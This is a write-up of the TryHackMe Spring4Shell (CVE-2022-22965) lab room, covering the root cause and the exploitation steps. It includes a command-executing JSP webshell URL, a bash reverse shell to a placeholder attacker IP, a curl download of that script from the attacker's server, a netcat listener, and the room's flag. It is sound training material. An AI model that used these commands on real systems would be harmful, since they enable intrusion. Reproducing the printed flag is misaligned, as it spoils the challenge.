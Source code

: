 
# 🧩 TryHackMe Room: Spring4Shell - CVE-2022-22965

**Spring4Shell** is a remote code execution (RCE) vulnerability discovered in Spring Core, affecting applications running on JDK9+ with specific configurations. This room walks through exploiting the vulnerability and understanding its impact on Java-based applications.

---

## 📌 Learning Objectives:
- Understand the cause and impact of CVE-2022-22965 (Spring4Shell).
- Learn how to exploit a vulnerable Spring application.
- Gain hands-on experience using a webshell and reverse shell techniques.

## 🔎 Vulnerability Background

- **CVE ID**: CVE-2022-22965  
- **Name**: Spring4Shell  
- **Type**: Remote Code Execution (RCE)  
- **Affected**: Spring Core on JDK 9 or newer with certain class loader configurations.

### 💥 Root Cause:
Spring4Shell is caused by improper handling of class properties, allowing an attacker to craft malicious HTTP POST requests to manipulate internal class properties (e.g., `class.module.classLoader`), resulting in remote code execution.

---

## 🛠️ Exploitation Process

### 🔧 Setup & Requirements:
- A running vulnerable Java/Spring application
- A known exploit path: `POST /<vulnerable-endpoint> HTTP/1.1`
- A malicious JSP webshell uploaded using crafted POST data

### ✅ Steps to Exploit:
1. Craft a malicious POST request that uploads a `.jsp` webshell.
2. Access the webshell using a URL like:
   ```
   http://<target-ip>/tomcatwar.jsp?pwd=thm&cmd=whoami
   ```

### 🔁 Bonus - Gaining Reverse Shell:
1. Create a reverse shell script:
   ```bash
   #!/bin/bash
   bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1
   ```
2. Make it executable:
   ```bash
   chmod 777 reverse.sh
   ```
3. Host it with a Python HTTP server:
   ```bash
   python3 -m http.server 8000
   ```
4. Curl the script on target:
   ```bash
   curl http://<YOUR_IP>:8000/reverse.sh -o /dev/shm/reverse.sh
   ```
5. Start Netcat listener:
   ```bash
   rlwrap nc -lvnp 443
   ```
6. Execute the shell from the webshell:
   ```bash
   http://<target-ip>/tomcatwar.jsp?pwd=thm&cmd=bash /dev/shm/reverse.sh
   ```

---

## 🏁 Flag

The final flag was found in the `/root` directory after gaining shell access.

```
THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm}
```

---

## 📚 Additional Resources

- [Spring Framework RCE Advisory](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)
- [Praetorian Blog on Spring RCE](https://www.praetorian.com/blog/spring-core-jdk9-rce/)
- [LunaSec Analysis](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)
- [CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965)

---

## 🧩 Key Takeaways

- **Spring4Shell** is a critical Java vulnerability that allows full remote code execution.
- Exploitation relies on misconfigurations common in Spring-based apps.
- Attackers can escalate from webshells to full reverse shells using standard Linux tools.

---

### 📅 Room Completed: July 2025  
### 🚩 Platform: [TryHackMe - Spring4Shell](https://tryhackme.com/room/spring4shell)
